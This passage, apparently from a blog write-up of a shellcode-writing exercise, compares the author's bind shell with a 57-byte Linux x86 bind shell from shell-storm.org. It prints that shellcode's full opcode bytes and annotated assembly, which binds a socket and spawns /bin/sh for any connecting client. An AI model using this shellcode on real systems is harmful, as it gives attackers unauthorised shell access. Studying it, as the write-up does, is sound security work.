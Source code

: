 [ $? -eq 0 ] && echo "Done" || echo "ERROR"
{% endhighlight %}

# Comparison
Once I was finished, I wanted to see how the product of my efforts compared to 
an established solution.  I downloaded an example bindshell written by Geyslan
G. Bem from shell-storm.org [^3].  His implementation is 57 bytes in length and
differs from mine in that it binds to a random port.  

Since the author's website is now defunct and the shell-storm page included 
only the shellcode, I had to convert the assembly with objdump and figure out 
what it was doing myself.  Here is my analysis:

{% highlight nasm %}
31 db            xor    ebx,ebx    ; Clear ebx
f7 e3            mul    ebx        ; Also clear eax and edx

b0 66            mov    al,0x66    ; Set syscall instr
43               inc    ebx        ; socket function
52               push   edx        ; 0 (proto)
53               push   ebx        ; 1 (sock_stream)
6a 02            push   0x2        ; 2 (af_inet)
89 e1            mov    ecx,esp    ; arg pointer
cd 80            int    0x80       ; interrupt

52               push   edx        ; 0 (inaddr_any)
50               push   eax        ; file descriptor
89 e1            mov    ecx,esp    ; arg
b0 66            mov    al,0x66    ; socketcall
b3 04            mov    bl,0x4     ; listen function
cd 80            int    0x80       ; interrupt

b0 66            mov    al,0x66    ; socketcall
43               inc    ebx        ; accept function
cd 80            int    0x80       ; interrupt

59               pop    ecx        ; fd -> ecx
93               xchg   ebx,eax    ; new fd -> ebx
6a 3f            push   0x3f       ; dup2 syscall
58               pop    eax        ; syscall -> eax
cd 80            int    0x80       ; interrupt

49               dec    ecx        ; -> 1
79 f8            jns    2060       ; loop
b0 0b            mov    al,0xb     ; execve
68 2f 2f 73 68   push   0x68732f2f ; String: hs//
68 2f 62 69 6e   push   0x6e69622f ; String: nib/
89 e3            mov    ebx,esp    ; load arg
41               inc    ecx        ; inc counter
cd 80            int    0x80       ; interrupt
{% endhighlight %}

## Screenshots
![Execution of C implementation]({{ "/assets/images/1.1-bindshell_c.png" | absolute_url}})
![Execution of NASM implementation]({{ "/assets/images/1.2-bindshell.png" | absolute_url}})

# References
[^1]: https://www.cs.cmu.edu/~srini/15-441/S10/lectures/r01-sockets.pdf
[^2]: https://www.gta.ufrj.br/ensino/eel878/sockets/sockaddr_inman.html
[^3]: http://shell-storm.org/shellcode/files/shellcode-837.php
